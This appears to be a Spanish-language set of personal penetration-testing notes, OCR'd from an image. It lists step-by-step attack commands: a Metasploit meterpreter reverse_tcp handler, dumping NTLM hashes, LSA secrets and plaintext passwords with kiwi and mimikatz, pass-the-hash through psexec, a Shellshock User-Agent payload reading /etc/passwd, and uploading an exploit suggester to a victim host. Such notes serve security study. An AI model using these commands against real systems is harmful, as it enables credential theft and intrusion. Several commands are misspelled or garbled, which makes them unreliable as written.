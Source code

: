 	postgresql, msfconsole, use multi_handler, set pauload	windows/x64/meterpreter/reverse_tcp, set RHOST, RPORT ..
	
	meterpreter> search -f Unattended.xml or cd C:\\Windows\Phanter\
	download Unattend.xml
	psexec.py Administrator@IP -- Luego passwod

Volcar Hashes, a travez de una cuenta de altos privilegios y los captura a travez de LSA
	Primero se debe obtener una sesion
	getuid
	grep lsass --> 78
	migreate 788
	getuid --> Ya se tendria la cuenta de administrador

	load kiwi (Similar a mikatz)
	? --> lsa_dump_sam --> Da los hashes NTLM
	creds_all
	lsa_dump_secrets

	En el caso de usar mimikatz hay que subir el archivo
	upload /urs/shares/windows-resources/mimikatz/x64/mimikatz.exe 
	shell
	.\mimikatz.exe
	privilege::debug
	ldump_sam
	lsa_dump::secrets
	
	sekurlsa::passwords

Ataque Pass-The-Hash a travez de Hash NTLM con pxsec.py
	Ya con kiwi o con mimikatz y con la cuenta de administrador se extraen los hashes a travez de lsa
	lsa_dump_sam
	hashdump --Entrga usuarios, LM Hash y NTLM Hash
	cntrl z
	search psexec -cambiar puerto (mismo que la session 1)
	


EXPLOTACION LINUX

ShellShock - Es la mas conocida y es una vulnerabilidad que involucra a Apache y Bash, donde a travez de una peticion CGI se hacen peticiones bash
	Se puede capturar la peticion de CGI vulnerable (comandos bash) con Burpsuite
	User-Agent:  () { :; }; echo; /bin/bash -c 'cat /etc/passwd'

Verificar exploits de Nmap ls -al /usr/share/nmap/scripts | grep ftp-*

Se pueden detectar vulnerabilidades a nivel de kernel Linux con linux-exploit-suggester

Ya descargado el Linux exploit suggester, dentro de la maquina victima con bajos privilegios
Se va a la carpeta temp, y se carga el archivo 
	upload suggester.sh
	shell
	ls
	chmod +x suggester.sh
	ls -laps -Se verifica que se tengan los permisos de ejecucion
	.\suggester.sh
	